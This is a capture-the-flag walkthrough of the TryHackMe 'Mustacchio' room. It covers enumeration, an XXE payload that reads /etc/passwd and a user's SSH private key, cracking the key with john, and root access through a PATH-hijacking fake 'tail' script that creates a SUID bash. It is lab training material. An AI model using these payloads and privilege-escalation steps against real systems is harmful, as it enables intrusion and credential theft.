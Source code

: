 # Mustacchio

![image](https://user-images.githubusercontent.com/5285547/121743836-e0ac7c80-caf9-11eb-8112-a3e7e5a189bc.png)

[Room Link](https://tryhackme.com/room/mustacchio)

## Enumeration

### Nmap
```bash
nmap -p- -v 10.10.68.59
```

```bash
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8765/tcp open  ultraseek-http

```

### Gobuster 

```bash
gobuster dir -u http://10.10.68.59  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```
http://10.10.68.59/
```bash
/gallery.html         (Status: 200) [Size: 1950]
/index.html           (Status: 200) [Size: 1752]
/images               (Status: 301) [Size: 311] [--> http://10.10.68.59/images/]
/contact.html         (Status: 200) [Size: 1450]                                
/blog.html            (Status: 200) [Size: 3172]                                
/about.html           (Status: 200) [Size: 3152]                                
/custom               (Status: 301) [Size: 311] [--> http://10.10.68.59/custom/]
/robots.txt           (Status: 200) [Size: 28]                                  
/fonts                (Status: 301) [Size: 310] [--> http://10.10.68.59/fonts/] 
```
http://10.10.68.59/custom/
```bash
/css                  (Status: 301) [Size: 315] [--> http://10.10.68.59/custom/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.68.59/custom/js/]
```
http://10.10.68.59/custom/js/
```bash
/users.bak            (Status: 200) [Size: 8192]
/mobile.js            (Status: 200) [Size: 1470]
```

Here I found a users.bak file.  
I downloaded it to check the contents.  
It looked to be a mysql or database command for creating a new user

![image](https://user-images.githubusercontent.com/5285547/121745773-be682e00-cafc-11eb-951c-aff68f56f379.png)

We have a username: Admin 

http://10.10.68.59:8765/
```bash
/home.php             (Status: 302) [Size: 1993] [--> ../index.php]
/index.php            (Status: 200) [Size: 1363]                   
/assets               (Status: 301) [Size: 194] [--> http://10.10.68.59:8765/assets/]
/auth                 (Status: 301) [Size: 194] [--> http://10.10.68.59:8765/auth/] 
```

## Website's (port 80, 8765)

### Port 80

This portal contains a blog for "mustacchio" brand for all mankind!

![image](https://user-images.githubusercontent.com/5285547/121744541-f9696200-cafa-11eb-9b2f-eeb05996505d.png)

Checking the webpages source code revealed nothing, but i noted a mobile.js script file included. Pressing F12 and using the developer console. I looked at the source code for the mobile.js file. 

![image](https://user-images.githubusercontent.com/5285547/121744888-7b598b00-cafb-11eb-8b8d-6741f1d9b90b.png)

I see some md5 at the bottom of the source code so try it on https://crackstation.net/ 
We get a hit

![image](https://user-images.githubusercontent.com/5285547/121745099-d55a5080-cafb-11eb-852e-bb56347012c3.png)

Now we have a username and password but nowhere to use them!?

### Port 8765

http://10.10.68.59:8765/

This page presents us with what we need for our credentials, a login page. 

![image](https://user-images.githubusercontent.com/5285547/121746171-5d8d2580-cafd-11eb-9c70-328eff1493a4.png)

## XML

After loggin in we get presented with this page

![image](https://user-images.githubusercontent.com/5285547/121746302-94633b80-cafd-11eb-8967-24ee1bc995f4.png)

Pressing the submit button causes a pop up box to appear

![image](https://user-images.githubusercontent.com/5285547/121746351-ad6bec80-cafd-11eb-9b68-e51cd7b0a08b.png)

Like it said to, inject some xml!
I got a payload from the internet here: https://github.com/payloadbox/xxe-injection-payload-list
After injection, some text appereard at the bottom of the page, indicating some structure needed for the xml.

![image](https://user-images.githubusercontent.com/5285547/121746652-1d7a7280-cafe-11eb-88c7-e39980cafe3f.png)

Checking our payload sent.

```xml
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

Then noting the response we got, which was "Comment Preview,Name, Author, Comment". I built a simuilar xml element with a root tag.

```xml
<!--?xml version="1.0" ?-->
<root>
 <commentPreview>John</commentPreview>
 <name>Doe</name>
 <author>Doe</author>
 <comment>John</comment>
</root>
```

Injecting this into the page left me with better results. 

![image](https://user-images.githubusercontent.com/5285547/121747164-dd67bf80-cafe-11eb-937a-bb120221768d.png)

Lets try to get a file next /etc/passwd as the usual test

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<root>
 <commentPreview>John</commentPreview>
 <name>&ent;</name>
 <author>Doe</author>
 <comment>John</comment>
</root>
```
![image](https://user-images.githubusercontent.com/5285547/121747279-13a53f00-caff-11eb-95b2-48b44ee149e2.png)

While I was in the source code I see a comment and some code above to give a few more hints about what to do next. 

![image](https://user-images.githubusercontent.com/5285547/121747510-6e3e9b00-caff-11eb-90a9-27f73d59beeb.png)

We can ssh as Barry but we need his id_rsa key. Using the file inclusion method above, I was able to get his id_rsa.
But, it was locked with a password..

![image](https://user-images.githubusercontent.com/5285547/121747692-b5c52700-caff-11eb-9a2a-fadcbfe6a5c3.png)

Time to get john out for a cracking good time! 

```bash
find / -name ssh2john* 2>/dev/null
python ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/5285547/121747920-03da2a80-cb00-11eb-9a14-3d7389bcb601.png)

## User

Now we can login as Barry with his password and get our first flag!

```bash
ssh barry@10.10.68.59 -i id_rsa
```

![image](https://user-images.githubusercontent.com/5285547/121748244-8bc03480-cb00-11eb-8825-a385e9074344.png)

![image](https://user-images.githubusercontent.com/5285547/121748305-a2ff2200-cb00-11eb-93b9-6c121b69bcc1.png)

## Root

Looking arond the system I found a strange file in Joe's home file (ELF) called "live_log", 
I check it with strings to see what it maybe doing.
We can see the tail binary being called but its path is not absolute! Runnig the file

![image](https://user-images.githubusercontent.com/5285547/121748473-f1acbc00-cb00-11eb-89a4-f9b57c88396c.png)

```
./live_log
```
I checked the system process's. The file was being ran as root.

Knowing a file can be abused using path manipulation, I set about making a file that would be ran when the "live_log" was run. 

```bash
cd /tmp
```
```bash
nano tail
#/!bin/bash
cp /bin/bash /tmp/b
chmod u+s /tmp/b
```

Save the file and then enter the next comamnds so we can run the executable. Then set the path to /tmp first to call our file before the real tail file. 
```bash
chmod +x tail
export PATH=/tmp:$PATH
```

Now we can run and get our last flag.
```bash
/tmp/b -p
```

![image](https://user-images.githubusercontent.com/5285547/121749233-3ab14000-cb02-11eb-9d97-5d8f5f3d6688.png)


Thanks and happy hacking! :)




